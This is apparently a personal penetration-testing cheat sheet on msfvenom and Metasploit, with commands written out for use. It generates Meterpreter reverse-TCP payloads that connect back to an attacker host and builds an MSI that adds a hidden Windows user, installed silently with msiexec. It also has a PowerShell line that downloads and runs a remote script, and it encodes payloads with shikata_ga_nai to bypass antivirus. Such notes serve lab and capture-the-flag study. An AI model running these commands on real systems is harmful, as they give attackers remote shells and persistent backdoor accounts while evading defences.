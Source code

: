 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

MSFVenom is the payload creating cousin of Metasploit. With it, you can create a wide variety of shellcodes, reverse TCP connectors, and much more. [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

## Usage

##### List Payloads 

```shell-session
msfvenom -l payloads
```

##### Options 

| Option                            | Description                                            |
| --------------------------------- | ------------------------------------------------------ |
| -p \<PAYLOAD\>                    | Generate a payload from the list in [[#List Payloads]] |
| LHOST=10.10.14.113 LPORT=443 <br> | Addresses to connect back to                           |
| -f elf                            | Format to generate the payload in                      |
| -o \<FILE\>                       | Output file                                            |
##  Setting Up Meterpreter Multi/Handler

```shell-session
msfconsole
```

```shell-session
use multi/handler
```

Set options.

```shell-session
run
```
## Commands

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1

iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
```

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi

msiexec /quiet /qn /i C:\Users\phoebe\exploit.msi
```


## Payload Encoders 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

```shell-session
-e x86/shikata_ga_nai -i 10
```

Increasing the number following `-i` will increase the number of iterations of the encoder.

Encoders are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

#### Anti-Virus Bypass 

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp
```

If the program gets closed quickly you can use` msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate`  in MSF console